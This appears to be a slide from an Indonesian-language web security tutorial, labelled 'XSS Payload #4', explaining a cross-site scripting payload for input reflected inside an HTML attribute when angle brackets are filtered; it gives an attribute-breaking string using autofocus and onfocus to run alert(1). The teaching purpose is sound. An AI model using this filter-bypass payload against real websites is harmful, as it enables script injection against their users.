

# XSS Payload #4
Digunakan jika input muncul di suatu value atribut dari tag HTML, tapi < dan > diblacklist.

" autofocus onfocus=”alert(1)